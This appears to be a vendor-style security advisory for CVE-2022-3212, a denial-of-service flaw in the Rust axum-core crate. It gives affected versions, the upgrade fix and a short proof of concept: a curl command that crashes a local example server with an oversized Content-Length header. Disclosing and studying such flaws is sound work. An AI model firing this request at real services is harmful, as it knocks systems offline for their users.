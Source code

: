 ```yaml
---
description: CVE-2022-3212 High severity. Missing limit checks in axum-core leads to denial of service
title: axum-core missing request size limit DoS
date_published: "2022-08-31"
last_updated: "2022-08-31"
xray_id:
vul_id: CVE-2022-3212
cvss: 7.5
severity: high
discovered_by: Ori Hollander
type: vulnerability
---
```

## Summary
A missing request size limit for HTTP requests in axum-core can allow network attackers to perform denial of service

## Component

[axum-core](https://crates.io/crates/axum-core)

## Affected versions

axum-core (, 0.2.7], fixed in 0.2.8

axum-core (, 0.3.0-rc.1], fixed in 0.3.0-rc.2



## Description

`<bytes::Bytes as axum_core::extract::FromRequest>::from_request` would not, by default, set a limit for the size of the request body. That meant if a malicious peer would send a request with a very large `Content-Length` header (even if the body itself is not very large), the Rust allocator would panic (due to a failed allocation) and the process would crash.

This also applies to these extractors which used `Bytes::from_request` internally:

- `axum::extract::Form`
- `axum::extract::Json`
- `String`



## PoC

```bash
git clone https://github.com/tokio-rs/axum

cd examples && cargo run -p example-readme

curl -v -X POST "http://127.0.0.1:3000/users" -H "Content-Type: application/json" \
--data `python3 -c "import sys; sys.stdout.write('a'*10000)"` -H "Content-Length: 11111111111111111111"
```



## Vulnerability Mitigations

No mitigations are provided for this vulnerability.

In order to fully fix this vulnerability, we recommend upgrading axum-core to version 0.2.8

The fixed [axum](https://github.com/tokio-rs/axum) version is 0.5.16



## References

[NVD](https://nvd.nist.gov/vuln/detail/CVE-2022-3212)